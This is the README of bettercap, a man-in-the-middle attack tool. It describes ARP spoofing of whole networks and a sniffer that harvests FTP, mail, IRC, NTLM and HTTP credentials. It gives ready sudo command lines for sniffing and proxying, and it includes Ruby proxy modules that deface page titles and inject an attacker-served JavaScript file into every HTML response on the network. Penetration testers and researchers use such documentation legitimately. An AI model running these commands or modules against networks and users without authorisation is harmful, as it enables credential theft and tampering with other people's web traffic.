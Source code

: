 ![logo](https://raw.github.com/evilsocket/bettercap/master/pics/logo.png)

Copyleft of Simone '[evilsocket](https://twitter.com/evilsocket)' Margaritelli*.  
http://www.bettercap.org/
[![Gem Version](https://badge.fury.io/rb/bettercap.svg)](http://badge.fury.io/rb/bettercap)
---

**bettercap** is a complete, modular, portable and easily extensible **MITM** tool and framework with every kind of diagnostic
and offensive feature you could need in order to perform a man in the middle attack.

MOTIVATIONS
===

> Yet another MITM tool? C'mon, really?!!?

This is exactly what you are thinking right now, isn't it? :D
But allow yourself to think about it for 5 more minutes ... what you should be really asking is:

> Does a complete, modular, portable and easy to extend MITM tool actually exist?

If your answer is "ettercap", let me tell you something:

* ettercap **was** a great tool, but it made its time.
* ettercap filters **do not** work most of the times, are outdated and hard to implement due to the specific language they're implemented in.
* ettercap is freaking **unstable** on big networks ... try to launch the host discovery on a bigger network rather than the usual /24 ;)
* yeah you can see connections and raw pcap stuff, **nice toy**, but **as a professional researcher I want to see only relevant stuff**.
* unless you're a C/C++ developer, you can't easily extend ettercap or make your own module.

Indeed you could use more than just one tool ... maybe [arpspoof](http://linux.die.net/man/8/arpspoof) to perform the actual poisoning, [mitmproxy](http://mitmproxy.org) to intercept HTTP stuff and inject your payloads and so forth ... I don't know about you, but I **hate** when I need to use a dozen of tools just to perform one single attack, especially when I need to do some black magic in order to make all of them work on my distro or on OSX ... what about the [KISS](https://en.wikipedia.org/wiki/KISS_principle) principle?

So **bettercap** was born ( isn't the name pure genius? XD ) ...

HOST DISCOVERY + ARP MAN IN THE MIDDLE
=== 

You can target the whole network or a single known address, it doesn't really matter, bettercap arp spoofing capabilities and its multiple hosts discovery agents will do the dirty work for you.  
Just launch the tool and wait for it to do its job ... again, [KISS!](https://en.wikipedia.org/wiki/KISS_principle)

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/discovery.png)

CREDENTIALS SNIFFER
===

The built in sniffer is currently able to dissect and print from the network the following informations:

- URLs being visited.
- HTTPS host being visited.
- HTTP POSTed data.
- HTTP Basic and Digest authentications.
- FTP credentials.
- IRC credentials.
- POP, IMAP and SMTP credentials.
- NTLMv1/v2 ( HTTP, SMB, LDAP, etc ) credentials.

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/credentials.png)

**Examples**

Default sniffer mode, all parsers enabled:
    
    sudo bettercap -X
    
Enable sniffer and load only specified parsers:
    
    sudo bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

Enable sniffer + all parsers and parse local traffic as well:
    
    sudo bettercap -X -L
    
MODULAR TRANSPARENT PROXY
===

A modular transparent proxy can be started with the --proxy argument, by default it won't do anything 
but logging HTTP requests, but if you specify a **--proxy-module** argument you will be able to load
your own modules and manipulate HTTP traffic as you like.  

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/proxy.png)

**Examples**

Enable proxy on default ( 8080 ) port with no modules ( quite useless ): 
    
    sudo bettercap --proxy

Enable proxy and use a custom port:
    
    sudo bettercap --proxy --proxy-port=8081
    
Enable proxy and load the module **example_proxy_module.rb**:
    
    sudo bettercap --proxy --proxy-module=example_proxy_module.rb

Disable spoofer and enable proxy ( stand alone proxy mode ):

    sudo bettercap -S NONE --proxy

**Modules**

You can easily implement a module to inject data into pages or just inspect the
requests/responses creating a ruby file and passing it to bettercap with the --proxy-module argument, 
the following is a sample module that injects some contents into the title tag of each html page.

```ruby
class HackTitle < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Hacking http://#{request.host}#{request.url} title tag"
      # make sure to use sub! or gsub! to update the instance
      response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
    end
  end
end
```

BUILTIN HTTP SERVER
===

You want to serve your custom javascript files on the network? Maybe you wanna inject some custom
script or image into HTTP responses using a transparent proxy module but you got no public server
to use? **no worries dude** :D  
A builtin HTTP server comes with bettercap, allowing you to serve custom contents from your own
machine without installing and configuring other softwares such as Apache, nginx or lighttpd. 

You could use a **proxy module** like the following:

```ruby
class InjectJS < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
      # get the local interface address and HTTPD port
      localaddr = Context.get.iface[:ip_saddr]
      localport = Context.get.options[:httpd_port]
      # inject the js
      response.body.sub!( '</title>', "</title><script src='http://#{localaddr}:#{localport}/file.js' type='text/javascript'></script>" )
    end
  end
end
```

And then use it to inject the js file in every HTTP response of the network, using bettercap itself
to serve the file:

    sudo bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb 

HOW TO INSTALL
===

**Stable Release ( GEM )**
    
    gem install bettercap
    
**From Source**
    
    git clone https://github.com/evilsocket/bettercap
    cd bettercap
    gem build bettercap.gemspec
    sudo gem install bettercap*.gem

DEPENDS
===

All dependencies will be automatically installed through the GEM system.

- colorize (**gem install colorize**)
- packetfu (**gem install packetfu**)
- pcaprub  (**gem install pcaprub**) [sudo apt-get install ruby-dev libpcap-dev]